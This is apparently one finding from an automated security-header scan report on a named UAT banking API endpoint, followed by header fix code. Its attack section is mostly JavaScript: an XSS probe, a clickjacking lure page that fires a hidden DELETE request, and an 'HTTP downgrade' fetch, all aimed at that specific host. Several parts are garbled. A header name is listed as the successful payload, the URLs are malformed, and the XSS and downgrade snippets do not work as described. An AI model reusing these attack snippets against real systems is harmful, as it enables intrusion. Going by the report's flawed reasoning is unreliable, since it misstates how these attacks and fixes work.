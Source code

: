 **🔴 Priority:** Medium - Within 1 month

**🎯 Successful Payloads:**
1. `Access-Control-Allow-Origin`

**⚔️ Attack Code (How to Simulate):**
```javascript
// Security Headers Attack Code
// 1. XSS Attack (if CSP missing)
const xssPayload = "<script>alert('XSS')</script>";
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?q=" + encodeURIComponent(xssPayload));

// 2. Clickjacking Attack (if X-Frame-Options missing)
const clickjackingPage = `
<!DOCTYPE html>
<html>
<head><title>Free Prize!</title></head>
<body>
    <h1>🎁 Click for free prize!</h1>
    <iframe src="https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false" style="opacity:0.1; position:absolute; top:50px; left:50px;"></iframe>
    <button onclick="triggerDelete()" style="position:absolute; top:50px; left:50px; z-index:1000;">
        🎁 CLAIM PRIZE
    </button>
    <script>
        function triggerDelete() {
            fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false", {method: "DELETE"});
        }
    </script>
</body>
</html>`;

// 3. Protocol Downgrade (if HSTS missing)
// Attacker intercepts HTTPS and forces HTTP
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false".replace('https://', 'http://'));
```

**🛡️ Fix Code (How to Resolve):**
```javascript
// Security Headers Fix Code
// Add these headers to all API responses
response.headers['Content-Security-Policy'] = "default-src 'self'; script-src 'self'; object-src 'none'";
response.headers['X-Frame-Options'] = 'DENY';
response.headers['Strict-Transport-Security'] = 'max-age=31536000; includeSubDomains; preload';
response.headers['X-Content-Type-Options'] = 'nosniff';
response.headers['Referrer-Policy'] = 'strict-origin-when-cross-origin';
response.headers['Permissions-Policy'] = 'geolocation=(), microphone=(), camera=(), payment=()';
response.headers['X-XSS-Protection'] = '1; mode=block';
response.headers['Access-Control-Allow-Origin'] = 'https://yourdomain.com';
response.headers['Access-Control-Allow-Methods'] = 'GET, POST, DELETE';
response.headers['Access-Control-Allow-Headers'] = 'Content-Type, Authorization';
response.headers['X-Permitted-Cross-Domain-Policies'] = 'none';
response.headers['Cache-Control'] = 'no-store, no-cache, must-revalidate, proxy-revalidate';
response.headers['Pragma'] = 'no-cache';
response.headers['Expires'] = '0';
```
